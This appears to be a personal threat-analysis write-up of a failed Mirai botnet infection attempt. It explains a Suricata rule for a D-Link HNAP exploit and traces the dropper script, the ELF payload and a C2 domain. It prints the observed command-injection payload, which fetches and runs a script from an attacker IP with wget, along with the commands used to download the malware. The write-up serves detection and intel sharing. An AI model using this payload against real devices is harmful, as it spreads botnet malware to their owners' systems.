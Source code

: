 # Attempted Mirai Infection and Analysis
---

## The Attack

- This began with a "drive by" infection attempt aiming to exploit a D-Link Router vulnerability CVE-2020-15631. Thank fully this bot attack didn't find a D-Link Router and instead found a fully patched web server. The attack failed.  Breaking the initial vulnerability and exploit attempt down is beyond the scope of this project but I will give a brief overview. 
    - This website has some great analysis on this vulnerability:
        - https://musteresel.github.io/posts/2018/03/exploit-hnap-security-flaw-dlink-dir-615.html

### Suricata Alert

- The Rule that fired was the following:
 ```
	alert http $EXTERNAL_NET any -> $HOME_NET any (msg:"ET WEB_SERVER Possible D-Link Router HNAP Protocol Security Bypass Attempt"; flow:established,to_server; urilen:7; http.method; content:"POST"; http.uri; content:"/HNAP1/"; nocase; endswith; fast_pattern; http.header; content:"SOAPAction|3a 20|"; nocase; content:"/HNAP1/"; distance:0; pcre:"/^(?:set|get)/Ri"; content:"DeviceSettings"; within:14; reference:url,www.securityfocus.com/bid/37690; reference:url,doc.emergingthreats.net/2010698; classtype:web-application-attack; sid:2010698; rev:6; metadata:created_at 2010_07_30, updated_at 2020_11_02;)
```
- Lets break this Suricata signature down.
    1. The rule is an "alert" rule looking at http traffic from any port inbound from the variable EXTERNAL_NET to the networks assigned to the variable HOME_NET on any port. This is followed by the message as denoted by "msg" which basically tells us what the alert is firing for.
    2.  The flow is set to established which means it will only match on established connections. Direction is "to server." 
    3. We see the "urilen" which sets a uri length of 7 characters. 
    4. We then see a sticky buffer of "http.method" which modifies the content "POST" which come after it. That is telling the logic to look in the http.method field for content of "POST." If the http.method field has a GET or any method other then POST, the logic won't continue to run and the rule won't fire. 
    5. We then see another sticky buffer of "http.uri." Again, this is giving a field for which to look for the content that follows it. In this case its saying look in the "http.uri" field for the content "/HNAP1/". You will notice that their is 7 characters in "/HNAP1/"
   6. We see "nocase" which sounds exactly what it does - makes it not case sensitive.
   7. Next is endswith, which according to the suricata manual it "modifies the content to match exactly at the end of a buffer."
   8.  "fast pattern" is fairly complicated and takes some time to explain. I suggest consorting with the suricata manual if you are interested in what this does. 
   9. We then see "http.header" sticky buffer which says " look at the http.header for the following content "SOAPAction|3a 20|" 
      - notice the |3a 20| . If you put that in cyber chef and decode from hex to ASCII you will notice it translates to the character ":" this is a special character and must be translate to hex in the rule or it will mess up the logic. This is trying to look for "SOAPaction:"
   10. We see another content which again is modified by the preceding http.header sticky buffer. This content is looking for "/HNAP1/.
   11. "distance: 0" is telling the logic to look for the preceding content of /HNAP1/ 0 bits away from the content before /HNAP1/ which in this case is SOAPaction:
     - the Suricata manual has a great picture that explains this concept
![image.png](/.attachments/image-532e61cd-c386-43e3-88e5-dcbf6874e550.png)
    

12.  We then see some pcre regex essentially looking for either "set" or "get" not dependent on case. 
```pcre:"/^(?:set|get)/Ri"```
13. Right after the PCRE we see another content match looking for "DeviceSettings" This is followed by a distance modifier of "within: 14. This is best explained with another picture
![image.png](/.attachments/image-c6c457e7-6c99-49f2-9ec6-97adf0a4f158.png)

13. That's it for the logic of the rule. Following the logic we have some reference links, the classtype(which signifies which kind of attack it is),  Signature ID(SID), the revision number, and some metadata which tells us when it was created or modified. 

### The Traffic The Rule Fired For

![image.png](/.attachments/image-e052bfb3-7be3-4d92-9713-607756a2e185.png)

- As we can see we have a POST as the HTTP Method
- We have /HNAP1/ as the URI
- We have an HTTP header of SOAPaction: with  /HNAP1/ in the header.
- Immediately following /HNAP1/ we have "Get" which the regex will match on and then "DeviceSettings"
- Following DeviceSettings we have the contents of the exploit payload which can change depending on what the threat actor is going to do. 

### The Initial Exploit
Defanged!
```
cd && cd tmp && export PATH=$PATH:. && cd /tmp;wget http://23.94.22[.]13/a/wget.sh;chmod 777 wget.sh;sh wget.sh selfrep.dlink;rm -rf wget.sh`"
```
This looks like a rather simple command injection.
- It does a CD (change directory) and if that executes with no errors it changes directory to the tmp directory.
- Then adds the current path to the PATH variable
- We see a CD to the /tmp directory where it then uses the wget tool to pull down a script titled "wget.sh" from ```http://23[.]94.22[.]13/a/wget.sh```
- It then changed the permissions on the wget.sh script to 777 or rwxrwxrwx 
- We then see it use sh to execute wget.sh and it follows it all up by deleting itself. 


### What's in wget.sh?

- To find this out we need to fire up a VM (behind a VPN) and wget this wget.sh script from the attacker webserver. 
    - To that end we can just run the same command (defanged of course)
    - Be careful from here on out. The ELF we eventually will grab can infect linux machines. Only  do this on a machine you can blow up and walk away from or reset. 
```
wget http://23.94.22[.]13/a/wget.sh
```
- Once we have wget.sh we can the cat the contents. 

![wget_sh.png](/.attachments/wget_sh-de81ca11-748b-49d0-ba8f-dc57f28ea875.png)

- Gnarly. What's this thing trying to do? its rather simple. Its using wget to pull down the secondary payload, changing the permissions on it and executing it. It doesn't know the operating CPU so its trying from ARM to x86_64. It tries to install them all. 

### What's the secondary payload?

- Lets find out by utilizing wget to pull it down

```
wget http://23.94.22[.]13/x86_64
```
- After we got that payload we can do a few things. 
    - We can start of by running the command "file" to get some details
![image.png](/.attachments/image-d7ca65f2-b5c8-4498-bd9b-6c3902f35225.png)

- Then lets run the "strings" command and see what we can find
    - If we look through all the strings we can see bots.infectedfam[.]cc This looks like potentially C2 domain. We should check that out later. 
![bots_infectedfam_cc_post.png](/.attachments/bots_infectedfam_cc_post-1e7ce95d-55de-4b0d-92dc-69b9b2f2ba99.png)

### Follow Up Analysis

- At this point, We've collected a handful of IoC's. We have IP addresses(both from the original attack and the ones contained in the exploits). We have a domain. We also have some pretty unique strings we may be able to write a YARA rule with down the road.  
- Lets investigate that domain. 
    - Just days old. Also proxied through Cloudflare. - Smart. Don't exactly want to block Cloudflare IP. Can still block that domain though!
![image.png](/.attachments/image-ab391949-b696-432f-842f-a97e0dac6ea4.png)

- Next we can share this intel with the community by submitting our IoC's as a pulse on AlienVault OTX. I've done so. First Pulse for this domain!
https://otx.alienvault.com/pulse/6215c927cbce007580b75c5e

- I also submitted that ELF to Joes Sandbox for further analysis. You can find the report here:
https://www.joesandbox.com/analysis/576941/0/html

### What I'll be doing now.

- GHIDRA - I'm no programmer or reverse engineer but I'd like to get an even deeper understanding of how this Mirai flavor is working. 
- Yara rules for detection. 

![Ghidra.png](/.attachments/Ghidra-1beaa57c-010a-4612-b0c4-46c43b4d57fe.png)